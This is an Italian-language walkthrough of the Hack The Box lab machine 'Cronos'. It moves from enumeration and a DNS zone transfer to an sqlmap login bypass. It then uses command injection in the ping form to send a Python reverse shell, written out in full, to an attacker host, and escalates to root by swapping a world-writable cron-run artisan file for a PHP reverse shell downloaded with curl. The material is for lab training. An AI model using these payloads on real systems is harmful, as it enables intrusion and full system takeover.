



IP: 10.10.10.13
Cronos si concentra principalmente su diversi vettori di enumerazione ed enfatizza i rischi associati all'aggiunta di file scrivibili da tutti al crontab di root. Questa macchina include anche una SQL injection di livello introduttivo.
Enumerazione
Eseguendo nmap, troviamo 3 porte TCP aperte:
nmap -sC -sV 10.10.10.13Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-01 06:12 EST
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.045s latency).
Not shown: 997 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.1
53/tcp open domain ISC BIND 9.10.3-P4
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux,linux_kernelEnumerando i virtual host, scopriamo un subdominio admin nascosto:
ffuf -u http://10.10.10.13 -H "Host: FUZZ.cronos.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 11439:: Method : GET
:: URL : http://10.10.10.13
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
:: Header : Host: FUZZ.cronos.htb
:: Filter : Response size: 11439
www [Status: 200, Size: 2319]
admin [Status: 200, Size: 1547]Eseguendo un DNS Zone Transfer che sfrutta il DNS sulla porta 53 rivela il subdominio admin:
dig axfr cronos.htb @cronos.htbcronos.htb. 604800 IN SOA cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb. 604800 IN NS ns1.cronos.htb.
cronos.htb. 604800 IN A 10.10.10.13
admin.cronos.htb. 604800 IN A 10.10.10.13
ns1.cronos.htb. 604800 IN A 10.10.10.13
www.cronos.htb. 604800 IN A 10.10.10.13Assicurarsi di aggiungerli al file `/etc/hosts` per accedere usando la configurazione DNS locale:
cat /etc/hosts127.0.0.1 localhost
10.10.10.13 cronos.htb admin.cronos.htb www.cronos.htbVulnerabilità e Scanning
Login form su admin.cronos.htb
La form di login su admin.cronos.htb non sembra accettare credenziali di default come admin:admin. Proviamo una vecchia scuola SQL injection con sqlmap:
sqlmap -u "http://admin.cronos.htb/" --forms -v 6 --output-dir="./sqlmap_results"Il payload riesce a reindirizzarci alla welcome page:

Esecuzione comandi
La pagina propone 2 comandi: traceroute e ping.

Exploitation
Command Injection
Proviamo una semplice command injection nel parametro host. Sulla macchina locale avviamo un reverse shell listener con netcat:
nc -lvnp 4444Usiamo questo payload da revshells.com:
export RHOST="10.10.14.21";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'La request di exploit:
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
Content-Type: application/x-www-form-urlencoded
command=ping+-c+1&host=10.10.14.21;export+RHOST%3d"10.10.14.21"%3bexport+RPORT%3d4444%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'Che ci dà il reverse shell:
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.13] 46334
$ whoami
www-data
$ cat /home/noulis/user.txt
{flag}Privilege Escalation
Dato che questa macchina si chiama cronos, mi aspetto di trovare qualcosa di utile sui cron jobs. Analizziamo quello che troviamo usando linPEAS!
/etc/cron.d:
total 24
-rw-r--r-- 1 root root 670 Mar 1 2016 php
-rw-r--r-- 1 root root 191 Mar 22 2017 popularity-contest
* * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1Quest'ultima è piuttosto interessante. Dovremmo avere accesso in lettura/scrittura a questo cron job programmato. Dato che possiamo alterare il contenuto di `/var/www/laravel/artisan` come vogliamo, sostituiamo questo file con una PHP reverse shell generata da revshells.com.
Hostiamo il file sulla nostra macchina locale:
python3 -m http.server 3000Prepariamo un listener per il reverse shell:
nc -lvnp 4444E recuperiamolo sulla macchina target:
www-data@cronos:/var/www/laravel$ curl 10.10.14.21:3000/revshell.php > artisanQuesto esegue istantaneamente l'exploit PHP, ottenendo l'accesso root via reverse shell:
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.13] 46350
Linux cronos 4.4.0-72-generic x86_64
uid=0(root) gid=0(root) groups=0(root)
root@cronos:/# whoami
root